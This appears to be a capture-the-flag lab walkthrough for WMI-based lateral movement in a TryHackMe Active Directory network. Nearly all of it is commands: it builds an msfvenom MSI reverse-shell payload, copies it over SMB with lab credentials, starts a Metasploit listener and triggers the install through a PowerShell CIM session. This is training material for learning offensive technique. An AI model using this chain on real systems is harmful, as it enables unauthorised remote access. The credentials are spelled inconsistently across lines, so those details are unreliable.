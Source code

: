# WMI Walkthrough

- Connect to THMJMP2 using credentials from http://distributor.za.tryhackme.com/creds  
`ssh za\\User1@thmjmp2.za.tryhackme.com`  

Captured admin credentials to be used (provided by THM):
- ZA.TRYHACKME.COM\t1_korine.waters
- Korine.1194

Create MSI payload using msfvenom:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi`  

Copy Payload using SMB:
`smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994` 

- Copy payload to ADMIN$ share
- Available at C:\Windows\ on the server

Start handler to receive reverse shell from Metasploit:  
`msf6 exploit(multi/handler) > set LHOST lateralmovement`  
`msf6 exploit(multi/handler) > set LPORT 4445`  
`msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp`  
`msf6 exploit(multi/handler) > exploit`

Start WMI session against THMIIS from a PowerShell console on THMJMP2:  
`PS C:\> $username = 't1_corine.waters';`  
`PS C:\> $password = 'Korine.1994';`
`PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;`  
`PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;`  
`PS C:\> $Opt = New-CimSessionOption -Protocol DCOM`  
`PS C:\> $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop`

Invoke the install method from Win32_Product to trigger payload:
`Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}`
